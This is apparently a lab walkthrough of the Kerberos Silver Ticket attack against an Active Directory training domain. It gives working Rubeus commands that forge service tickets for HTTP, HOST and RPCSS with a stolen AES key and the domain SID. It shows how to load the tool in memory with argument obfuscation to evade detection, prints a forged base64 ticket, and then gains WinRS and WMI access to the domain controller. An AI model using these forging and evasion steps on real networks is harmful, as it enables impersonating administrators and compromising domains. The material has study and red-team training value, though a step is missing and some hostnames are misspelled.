

The Silver Ticket attack involves the exploitation of service tickets in Active Directory (AD) environments.
This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user, typically aiming for administrative privileges. It's emphasized that using AES keys for forging tickets is more secure and less detectable.
In other words a Silver Ticket is a forged Kerberos service ticket that allows an attacker to authenticate to a specific service within a domain. It is created by an attacker who has already compromised a user account and obtained the NTLM hash of a service account password.
Difference between Silver and Golden Tickets
- Scope of Access:
- Golden Ticket: Provides full access to the entire domain, allowing the attacker to impersonate any user, including Domain Administrators.
- Silver Ticket: Provides access only to the specific service that the ticket is forged for, such as CIFS, Windows Firewall, or Print Spooler.
- Detection Difficulty:
- Golden Ticket: Easier to detect because it involves communication between the attacker and the Domain Controller, which can be monitored.
- Silver Ticket: Harder to detect because there is no communication between the attacker and the Domain Controller. The attacker can use the forged ticket to access the targeted service without raising any alarms.
- Persistence:
- Golden Ticket: Provides long-term persistence, as the Golden Ticket can be valid for up to 10 years by default.
- Silver Ticket: Provides more limited persistence, as the attacker needs to maintain access to the compromised service account to renew the ticket.
Advantages of Using a Silver Ticket
- Stealth: Silver Tickets are more stealthy than Golden Tickets because they do not involve communication with the Domain Controller, making them harder to detect.
- Targeted Access: Silver Tickets provide access only to the specific service they are forged for, rather than the entire domain. This can be advantageous if the attacker's goal is to target a specific service or resource.
- Persistence: While Golden Tickets provide longer-term persistence, Silver Tickets can still be useful for an attacker who needs to maintain access to a specific service or resource for a limited period.
- Lateral Movement: An attacker can use a Silver Ticket to move laterally within the network by compromising additional service accounts and creating new Silver Tickets for those services.
While Golden Tickets provide more comprehensive access to the domain, Silver Tickets can be a valuable tool for attackers who need to maintain stealthy, targeted access to specific services or resources within the network. The choice between using a Silver Ticket or a Golden Ticket will depend on the attacker's specific goals and the level of risk they are willing to take.
Usually Kerberos tickets are verified by the 3rd party Privileged Account Certificate (PAC). Service accounts, for some reason, aren’t always checked, which is ultimately what makes this attack work. Services are low-level applications like CIFS, Windows Firewall, or Print Spooler.
How Silver Ticket Attacks Work
To execute a silver ticket attack, an attacker needs to already have control of a compromised target in the system environment. This initial compromise can come in any form of cyberattack or malware. Once the attacker has a way in, a silver ticket attack follows a step-by-step process to forge authorization credentials.
Silver Ticket With Rubeus
Step 1. Gather information about the domain and the targeted local service.
This involves discovering the domain security identifier and the DNS name of the service the attack is intended for.
We can gather then Domain SID information by importing PowerView modules. For this importing mechanism we do have 2 ways to import modules.
First option is using a dot sourcing mechanism.. .\PowerView.ps1
Second option is using Import-Module.Import-Module PowerView.ps1
The we can request the Domain SID with the following command.
Get-DomainSID

Domain-SID: S-1-5-21-719815819-3726368948-3917688648
For the DNS name of the service of the attack is intended for, we will be using dcorp-dc.dollarecorp.moneycorp.local which is the DNS name of the target service account DCORP-DC$.
Last but not least, we will be abusing HTTP and WMI.
Step 2. Use a tool to obtain the local NTLM hash, or password hash, for the Kerberos service.
An NTLM hash can be gathered from the local service account or security account manager of a compromised system.
Let’s just assume that we were able to compromise the following service or computer account:
Account:
NTLM-HASH:
AES256: 14b490c2eee6dee2c3e811ed7d0192e3aad615c093348ea42259a498f4eeaae9
Step 3. Forge a Kerberos Ticket Granting Service, which allows the attacker to authenticate their targeted service.
PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only, it is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
“silver”
set "z=r"
set "y=e"
set "x=v"
set "w=l"
set "v=i"
set "u=s"
set "Pwn=%u%%v%%w%%x%%y%%z%"Once we have done the copy/past of the encoded “silver” to the CMD, we can carry on and forge the Silver Ticket using Rubeus.exe.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /aes256:14b490c2eee6dee2c3e811ed7d0192e3aad615c093348ea42259a498f4eeaae9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
[*] Domain : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID : S-1-5-21-719815819-3726368948-3917688648
[*] UserId : 500
[*] Groups : 544,512,520,513
[*] ServiceKey : 14B490C2EEE6DEE2C3E811ED7D0192E3AAD615C093348EA42259A498F4EEAAE9
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey : 14B490C2EEE6DEE2C3E811ED7D0192E3AAD615C093348EA42259A498F4EEAAE9
[*] KDCKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service : http
[*] Target : dcorp-dc.dollarcorp.moneycorp.local
[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'Administrator' to 'http/dcorp-dc.dollarcorp.moneycorp.local'
[*] AuthTime : 6/4/2024 4:26:18 PM
[*] StartTime : 6/4/2024 4:26:18 PM
[*] EndTime : 6/5/2024 2:26:18 AM
[*] RenewTill : 6/11/2024 4:26:18 PM
[*] base64(ticket.kirbi):
doIGKjCCBiagAwIBBaEDAgEWooIE3TCCBNlhggTVMIIE0aADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlD
T1JQLkxPQ0FMojYwNKADAgECoS0wKxsEaHR0cBsjZGNvcnAtZGMuZG9sbGFyY29ycC5tb25leWNvcnAu
bG9jYWyjggRyMIIEbqADAgESoQMCAQOiggRgBIIEXL/4yNuGbrIhpQm7t/LgWB41v4shVw+FYurwNpix
XeCK5woPZIsNBjT9s5nAJ6HgymyeRMKFQTEA6jAKUKVg4YAw/X4jYk5aPRB6KFEhG8AdkerNt4B2p9Vx
kDJnNeVX9YjyRuPQCLiq4/4U8YDGg3HiVX0ojkItjZO1VoQLHDHa1tuNg+r4SivWWq9jkGOABdyrKJ7l
9TR5593A4N1RsYkYxr+CZ5MKc24P7f5eSP4xJp0hTBHBzHzTXttk4OlpUReGH3DkVnsyP3m9IG2KqHtl
ei6iYno2lIKJsGTjCQOw/m1lUjxloI1cob0B2Faio5bBrpW6N+faHub9K8aoG3pIQfXH1vVov9JmjmVq
qETjqxRP+5rKkFgpyvhcj+lMraXKhnkejq+EFQ4MWne7KonnPknwUZ0rqWNZ8BTi5gzUoSr04wQchpeH
3Czd5mglSdVuura7ndyIUPfmpREFxjcgBXDouiXC0OuhxjauCorLmoUycxHcc4YpXxlTbhFUG8palpBT
tGFVZ0ntEUIx/BLloD/SwX5a2Otqr2pFsZQJZ5h/A/KVMbPmxX3tmZmzDEr3M8gB5umrDP3DGfzllifM
P2BYG03P8ZyXQwfk/16WbJ5ZarjD7rNycezLpMqTSjQ13KQWmBAJmo9zh3ZuHKOwdY1+U/KEQARcBEGm
BG6XSnvRfAMcGcdGFHkG1QjKOEKtrVkAo1Ct+JH4LmNZA7JZ0Hkybc1qTSltT5N1uZcfVYoKAHRGfrB4
9HQAHzdY37OvKzLhkYJiLvkT4jDQuBGiS7nmEXMnzE2oA0dmGKTjBPhtpl7+BhYMEAbgyZDgNtKhNPKu
Sy9Te6mRm9EeIDfBmPQD41V3nYMnBPnY1N68R+jfQFuunGDGpcRdze5Je8L9wF5hL9Wmumxq/zl7eOwc
2TQITjr1A0Bc/BTq+kdW3XzlJC45YMQEAtB1a2kEXQ9q8kF91rBrmgKYjvBYFM99mmCBcXZSuDXy76vp
DnVKf4nIN4xnlSK+zAO+WzYH4sLQlV6Z2GAvoyw2iPjY01WCdk6AL51DvwJVoB6dDBBIoRsfD2Qk637J
/43wq9He/lvPQllwWfGNkcPSkxfaQSQ91yQF1LJKb4PKx6POy6bGP7cHKSE2WbcTJWnKI/D+CnG4jGPd
OP3J5krjWXUNBnt31fKebitdmFonqz5LNGRiWFaUHd5hZLFCSzHqerh+zegVKMMsRrCotiHfMy9w8HQJ
Ahj541vOGuI2RlmZYrwQu5DJF6g9pJqJWu72JAx6CMeLpW5ppJ1W7/dbHQDIFY1usVhjD7uvoXEDGhEl
eemrYYTOWSh8+xYyhQuwGiNweU6N2lxaxCyIgwEEulwRuHVgU5YMbyvN3kri4NcfzIQ0msaLEP+FEJRL
2um+s3BznUeaOAo5nMxxmdmdGp6h4u45NGi4vaVCMJ9gI/Y1mjB3H562geJFXwozz9CIndkm+znKTzH5
/0BsOFvGhqOCATcwggEzoAMCAQCiggEqBIIBJn2CASIwggEeoIIBGjCCARYwggESoCswKaADAgESoSIE
ILsuvXDYADyIlhMhcEGBz9sfovgpJK/q5FnhFJE+3spooRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxP
Q0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKAAAKQRGA8yMDI0MDYwNDIzMjYxOFql
ERgPMjAyNDA2MDQyMzI2MThaphEYDzIwMjQwNjA1MDkyNjE4WqcRGA8yMDI0MDYxMTIzMjYxOFqoHBsa
RE9MTEFSQ09SUC5NT05FWUNPUlAuTE9DQUypNjA0oAMCAQKhLTArGwRodHRwGyNkY29ycC1kYy5kb2xs
YXJjb3JwLm1vbmV5Y29ycC5sb2NhbA==
[+] Ticket successfully imported!Amazing… we were able to forge the Silver Ticket.
We can check the Cached Ticket to confirm if we are Administrator at the domain.
klist
Current LogonId is 0:0x3ec41
Cached Tickets: (1)
#0> Client: Administrator @ DOLLARCORP.MONEYCORP.LOCAL
Server: http/dcorp-dc.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
Start Time: 6/4/2024 16:26:18 (local)
End Time: 6/5/2024 2:26:18 (local)
Renew Time: 6/11/2024 16:26:18 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0
Kdc Called:We have the HTTP service ticket for DCORP-DC.
Step 5. Use the forged tickets for financial gain or to further corrupt a system, depending on the attacker’s objective.
Once the attacker obtains the forged silver ticket, they can run code as the targeted local system. They can then elevate their privileges on the local host and start moving laterally within the compromised environment or even create a golden ticket. This gives them access to more than the originally targeted service and is a tactic for avoiding cybersecurity prevention measures.
Now let’s try to access the service using WinRS.
Let’s pay attention that we do have the FQDN as dcorp-dc.dolarcorp.moneycorp.local in our ticket, so we need to use the full name when accessing the service via WinRS.
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd

Using BetterSafetyKatz for WMI
For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS.
We could also use Rubeus for this but let’s use BetterSafetyKatz.
Step 1. Gather information about the domain and the targeted local service.
This involves discovering the domain security identifier and the DNS name of the service the attack is intended for.
We can gather then Domain SID information by importing PowerView modules. For this importing mechanism we do have 2 ways to import modules.
First option is using a dot sourcing mechanism.. .\PowerView.ps1
Second option is using Import-Module.Import-Module PowerView.ps1
The we can request the Domain SID with the following command.
Get-DomainSID
Domain-SID: S-1-5-21-719815819-3726368948-3917688648
{kind=link}

For the DNS name of the service of the attack is intended for, we will be using dcorp-dc.dollarecorp.moneycorp.local which is the DNS name of the target service account DCORP-DC$. Last but not least, we will be abusing HTTP and WMI.
Step 2. Use a tool to obtain the local NTLM hash, or password hash, for the Kerberos service.
An NTLM hash can be gathered from the local service account or security account manager of a compromised system.
Let’s just assume that we were able to compromise the following service or computer account:
Account:
NTLM-HASH:
AES256: 14b490c2eee6dee2c3e811ed7d0192e3aad615c093348ea42259a498f4eeaae9
Step 3. Forge a Kerberos Ticket Granting Service, which allows the attacker to authenticate their targeted service.
PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only, it is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
silver
set "z=r"
set "y=e"
set "x=v"
set "w=l"
set "v=i"
set "u=s"
set "Pwn=%u%%v%%w%%x%%y%%z%"Now that we have create the encode for the Silver word, let’s load Rubeus.exe using PELoader.exe.
Using Rubeus.exe for HOST:
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:host/dcorp dc.dollarcorp.moneycorp.local /aes256:14b490c2eee6dee2c3e811ed7d0192e3aad615c093348ea42259a498f4eeaae9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
Using Rubeus.exe for RPCSS:
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:rpcss/dcorp dc.dollarcorp.moneycorp.local /aes256:14b490c2eee6dee2c3e811ed7d0192e3aad615c093348ea42259a498f4eeaae9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt

After executing Rubeus we can see that we were able to forge the Silver Ticket for HOST and RPCSS.
We can confirm that by checking our Cached Tickets.
klist

Amazing, we have both Tickets… Now, let’s try running WMI commands on the domain controller:
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc

We have access to Domain Controller.